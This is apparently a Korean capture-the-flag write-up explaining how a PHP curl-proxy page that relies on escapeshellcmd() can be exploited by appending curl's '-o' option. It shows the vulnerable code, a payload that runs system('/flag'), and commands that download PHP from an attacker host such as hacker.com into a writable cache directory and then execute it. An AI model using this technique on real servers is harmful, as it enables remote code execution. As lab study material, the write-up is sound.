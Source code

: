 # 결론은.. RFI
curl 명령어를 대신 실행해주는 웹 서버가 있습니다. 사용자는 url이라는 매개변수를 통해 URL을 입력할 수 있으며, 서버는 해당 URL의 결과를 별도의 캐시 파일로 특정 디렉터리에 저장하여 사용자가 이를 읽을 수 있도록 합니다. 그러나 악의적인 공격자가 악성 명령어를 삽입할 수 있어, 초기 보안 조치로 escapeshellcmd() 함수를 통해 사용자 입력에 대한 1차 필터링을 적용했습니다. 하지만 escapeshellcmd()가 하이픈(-) 필터링을 지원하지 않으므로, 사용자는 입력한 URL 뒤에 `-o`나 `--output` 옵션을 추가할 수 있습니다. (즉, 다시말해 서버 내 임의 파일 생성이 가능)

Exploit 예시: 공격자는 `<?php system('/flag'); ?>`가 포함된 파일을 자신이 운영하는 웹 서버에 저장합니다 (예: http://hacker.com/phpcode). 이후 공격자가 `http://hacker.com/phpcode -o ./cache/test.php`와 같은 입력을 전송하면 서버는 이 파일을 ./cache/test.php로 저장하게 되고, 최종적으로 http://curl.server/cache/test.php 에 접속하면 해당 php코드가 실행되어 공격에 성공하게 됩니다.



# Flow
curl 명령어를 도와주는 웹서버가 있다. 사용자는 URL주소를 입력할 수 있으며 그 결과를 cache라는 디렉토리에 별도로 저장함. 아래는 예시

![alt text](image-2.png)
![alt text](image-3.png)
![alt text](image-1.png)

# 코드를 보면...
```php
$url = $_GET['url'];
if (strpos($url, 'http') !== 0) {
    die('http only !');
} else {
    $result = shell_exec('curl '.escapeshellcmd($_GET['url']));
    $cache_file = './cache/'.md5($url);
    file_put_contents($cache_file, $result);
    echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
    echo '<pre>'.htmlentities($result).'</pre>';
    return;
}
```
사용자 입력 `url` 에 대한 escapeshellcmd() 검증을 하고 있으나 -에 대한 필터링이 없기 때문에 옵션 사용을 통한 우회가능해보임
ex) -o 또는 --output <file>: 다운로드한 내용을 파일에 저장합니다.

### 참고

PHP의 `escapeshellcmd` 함수는 사용자가 제공한 명령어를 안전하게 처리하기 위해 특수 문자를 이스케이프하여 쉘 인젝션을 방지하는 역할을 합니다. 이 함수는 주로 `exec()`, `system()`, 또는 백틱 연산자를 사용해 외부 명령어를 실행하기 전에 적용됩니다. PHP 소스 코드에서 `escapeshellcmd`는 다음과 같은 방식으로 특수 문자를 이스케이프합니다:

- `&`, `;`, `|`, `*`, `?`, `<`, `>`, `^`, `(`, `)`, `[`, `]`, `{`, `}`, `$`, `\`, 줄바꿈 문자(`\x0A`), 그리고 파일 끝 문자(`\xFF`)와 같은 문자 앞에 역슬래시(`\`)를 추가하여 문자열 그대로 해석되도록 합니다.
- Windows의 경우, `%`와 `!` 문자도 `^` 기호로 이스케이프됩니다.

이러한 처리를 통해 악의적인 명령어를 삽입하려는 시도를 제한하지만, `escapeshellcmd`는 전체 명령어를 이스케이프할 뿐이며 개별 인수를 안전하게 처리하지 않기 때문에 여전히 보안에 취약할 수 있습니다. 따라서 단일 인수의 이스케이프에는 `escapeshellarg()` 사용이 권장됩니다.

`escapeshellcmd`는 특수 문자와 명령어 체인을 분리하지만, 복잡한 명령어 구문이나 특수한 상황에서 완벽한 보호를 제공하지 못할 수 있어, PHP의 `cURL` 라이브러리와 같이 셸을 직접 호출하지 않는 방법을 사용하는 것이 좋습니다.

# RFI 준비
간단히 깃허브에 php코드가 담긴 파일을 만들어줌
![alt text](image-9.png)

## Try 1
```
curl https://raw.githubusercontent.com/...(중략).../phpcode -o ./test.php
```
생성되지 않음 이유는 디렉토리 내 쓰기 권한이 없음
![alt text](image-4.png)

하지만 현재 디렉토리 내 `worldwritable` 디렉토리 확인!
![alt text](image-5.png)

## Try 2
```
curl https://raw.githubusercontent.com/...(중략).../phpcode -o ./cache/test.php
```

![alt text](image-6.png)
![alt text](image-7.png)
![alt text](image-8.png)

끝.
